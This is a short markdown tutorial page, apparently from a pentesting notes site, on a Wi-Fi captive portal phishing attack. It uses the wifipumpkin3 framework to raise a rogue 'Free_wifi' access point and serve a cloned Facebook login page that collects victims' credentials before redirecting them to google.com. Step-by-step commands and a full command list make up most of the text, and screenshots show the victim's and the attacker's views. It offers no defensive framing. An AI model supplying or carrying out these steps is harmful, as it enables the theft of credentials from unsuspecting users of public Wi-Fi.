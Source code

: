 # Using captive portal attack

## Creating a fake access point with an extra captive portal

What can we do using a captive portal?

* Basically, do phishing by cloning official login portals and trick or clients to give us credentials or sensitive information.

### Configuration

<figure><img src="../../../../.gitbook/assets/wifipumpkin_firstconfig.png" alt=""><figcaption></figcaption></figure>

* First, we define the SSID (Name of the access point), interface and ignoring pydns\_server.

<figure><img src="../../../../.gitbook/assets/wifipumpkin3_installing_templates.png" alt=""><figcaption></figcaption></figure>

* In this case I'll be using a facebook captive portal to trick the users, so to install it just do the following.

```bash
use misc.extra_captiveflask
download
```

<figure><img src="../../../../.gitbook/assets/wifipumpkin3_installing_templates_facebook.png" alt=""><figcaption></figcaption></figure>

* Now I'll select the facebook template.

```bash
install facebook # simple as that
back
```

<figure><img src="../../../../.gitbook/assets/wifipumpkin_proxies.png" alt=""><figcaption></figcaption></figure>

* Now we need to choose what proxy we want to use.
* In this case we will use the captiveflask proxy.
* Just type _**`set proxy captiveflask`**_

<figure><img src="../../../../.gitbook/assets/force_redirect_to_url.png" alt=""><figcaption></figcaption></figure>

* Here in the setting options, I'll type _**`set captiveflask.force_redirect_to_url https://google.com`**_
* This will redirect the user to **google.com** once he types the requested credentials.

<figure><img src="../../../../.gitbook/assets/setting_faccebook_true (2).png" alt=""><figcaption></figcaption></figure>

### Victims phone

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-md7HPxTAJ6o/YQG2TfOi2LI/AAAAAAAAx-M/wI6Or4Dz544kiwjMNq3EvyuCdww_02pHwCLcBGAsYHQ/s16000/47.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

### Attackers overview

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-vO6ZPlu7Y_U/YQFsDystTQI/AAAAAAAAx7A/-72BJLcOmc0NEyEdS4sBDPbBujT05NX6wCLcBGAsYHQ/s16000/48.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

### Commands used

```bash
set interface wlan0
set ssid Free_wifi
use misc.extra_captiveflask
download
install facebook # simple as that
back
set proxy captiveflask
set captiveflask.force_redirect_to_url https://google.com
set captiveflask.facebook true
start
```
